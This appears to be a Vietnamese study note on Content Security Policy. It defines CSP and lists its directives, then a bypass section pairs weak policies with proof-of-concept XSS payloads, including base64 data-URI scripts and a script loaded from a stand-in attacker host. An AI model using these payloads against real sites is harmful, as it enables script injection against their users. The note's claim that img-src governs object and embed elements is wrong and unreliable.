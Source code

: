 # Content Security Policy
# I.Tổng quan.
## 1. khái niệm CSP.
- Content Security Policy (CSP) là biện pháp bảo mật thiết yếu để bảo vệ các ứng dụng web khỏi một số loại tấn công nhất định. Bằng cách xác định các quy tắc nghiêm ngặt về tài nguyên mà trình duyệt có thể tải, CSP hạn chế các vectơ tấn công tiềm ẩn.
- Content Security Policy (CSP) biện pháp bảo vệ bổ sung giúp phát hiện và hạn chế một số cuộc tấn công từ phía máy khách, chẳng hạn như Cross Site Scripting (XSS) , clickjacking và chèn nội dung.
## 2.hoạt động CSP.

## 3.Một số chính sách của CSP.
- Các chỉ thị này xác định các nguồn được ủy quyền cho các tài nguyên HTML khác nhau:
+ default-src : Nguồn mặc định nếu không có chỉ thị nào khác được xác định.
+ script-src : Nguồn hợp lệ cho các tập lệnh JavaScript và WebAssembly.
+ script-src-elem : Nguồn hợp lệ cho <script>thẻ. Nếu không có, script-srcsẽ được sử dụng.
+ frame-src : Nguồn hợp lệ cho <frame>và <iframe>.
+ img-src : Nguồn hợp lệ cho <object>, <embed>và <applet>.
+ style-src : Nguồn hợp lệ cho bảng định kiểu.
+ font-src : Nguồn phông chữ hợp lệ.
- Một số chỉ thị không liên quan đến việc khôi phục tài nguyên nhưng bổ sung thêm các biện pháp kiểm soát bảo mật:
+ sandbox : Kích hoạt một hộp cát để cô lập nội dung nhất định (như đối với <iframe>).
+ require-trusted-types-for : Áp dụng 'các loại đáng tin cậy' để hạn chế các cuộc tấn công XSS dựa trên DOM .
+ trusted-types : Xác định danh sách trắng 'Loại đáng tin cậy' để ngăn chặn việc thực thi dữ liệu giả mạo.
+ upgrade-insecure-requests : Tự động chuyển đổi yêu cầu HTTP sang HTTPS. Hữu ích cho việc hiện đại hóa một trang web có nhiều URL cũ.
+ frame-ancestors : Hạn chế các nguồn được phép cho các phần tử <frame>, <iframe>, <object>, <embed>và <applet>.
+ form-action : Kiểm soát các URL được phép gửi biểu mẫu.
+ base-uri : Hạn chế các nguồn hợp lệ cho <base>thẻ.

## 4.bỏ qua các chính sách CSP.
- Xác thực JavaScript không an toàn trong dòng : ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';```
  + payload :  ```<script>alert(1);</script>```
- Ủy quyền đánh giá không an toàn :  ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:; ```
 + payload :  ``` <script src="data:;base64, YWxlcnQoMSk="></script>```
- Sử dụng ký tự đại diện trong script-src :  ```Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *; ```
  + payload :  ``` <script src="https://evil.vaadata.at"></script>  ```
                 ```<script src="data:;base64, YWxlcnQoMSk="></script> ```
- Không có chỉ thị object-src và default-src :  ```Content-Security-Policy: script-src ‘self’; img-src ‘self’; img-src 'self’;```
  + payload : ```<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>```
- Khai thác điểm cuối JSONP được ủy quyền :
- 
  **```Content-Security-Policy: default-src 'none';```
  ```script-src https://hello.vaadata.com/test.js ```
```https://accounts.google.com/o/oauth2/revoke;```**
- Bỏ qua CSP thông qua việc tải tệp lên : ```Content-Security-Policy: default-src 'self'```
  + payload : ```<script src="/upload/evil-script.js"></script>```
